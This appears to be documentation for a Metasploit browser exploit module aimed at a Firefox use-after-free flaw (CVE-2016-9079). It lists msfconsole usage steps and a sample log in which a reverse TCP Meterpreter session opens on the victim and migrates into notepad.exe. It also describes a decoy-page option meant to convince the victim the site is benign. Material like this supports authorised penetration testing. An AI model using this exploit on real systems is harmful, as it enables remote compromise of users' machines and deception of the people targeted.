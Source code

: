 Mozilla Firefox is a free, open-source web browser developed and maintained by the Mozilla Foundation.  Multiple versions are affected by a use-after-free vulnerability, detailed by CVE 2016-9079, that can result in arbitrary remote code execution.


## Vulnerable Application

The vulnerability is present in all releases of Mozilla Firefox prior to 50.0.2

Firefox 38 through 41 were specifically chosen as targets for this module, though support for more releases is planned.

## Usage

# UsePostHTML module option

The module includes an option named UsePostHTML which is turned off by default.  Setting this option to true will result in the module sending an HTML page to the target to be rendered after successful exploitation.  This can be useful in convincing the target that they have arrived at a legitimate, benign website.  If desired, please edit $datadirectory/exploits/firefox_smil_uaf/post.html to suit your needs.  The included example file more than likely won't be suitable for your purposes.

**Using firefox_smil_uaf**

1. Start msfconsole
2. Do: ```use exploit/windows/browser/firefox_smil_uaf```
3. Do: ```set payload [PREFERRED PAYLOAD]
4. Do: ```set PAYLOAD [PAYLOAD NAME]```
5. Set payload options as needed
6. Do: ```run```, and have a target browse to the generated URL
7. Once a vulnerable target connects, you should receive a session like this:

```
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.79.132:6789 
[*] Using URL: http://192.168.79.132:4567/lol
[*] Server started.
msf exploit(firefox_smil_uaf) > [*] 192.168.79.184   firefox_smil_uaf - Got request: /lol/
[*] 192.168.79.184   firefox_smil_uaf - From: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:38.0) Gecko/20100101 Firefox/38.0
[*] 192.168.79.184   firefox_smil_uaf - Sending exploit HTML ...
[*] 192.168.79.184   firefox_smil_uaf - Got request: /lol/worker.js
[*] 192.168.79.184   firefox_smil_uaf - From: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:38.0) Gecko/20100101 Firefox/38.0
[*] 192.168.79.184   firefox_smil_uaf - Sending worker thread Javascript ...
[*] Sending stage (957487 bytes) to 192.168.79.184
[*] Meterpreter session 1 opened (192.168.79.132:6789 -> 192.168.79.184:52341) at 2017-01-20 11:25:38 -0600
[*] Session ID 1 (192.168.79.132:6789 -> 192.168.79.184:52341) processing InitialAutoRunScript 'migrate -f'
[*] Running module against WIN-UTRINKNPT3D
[*] Current server process: firefox.exe (1448)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 2572
[+] Successfully migrated to process 2572

```

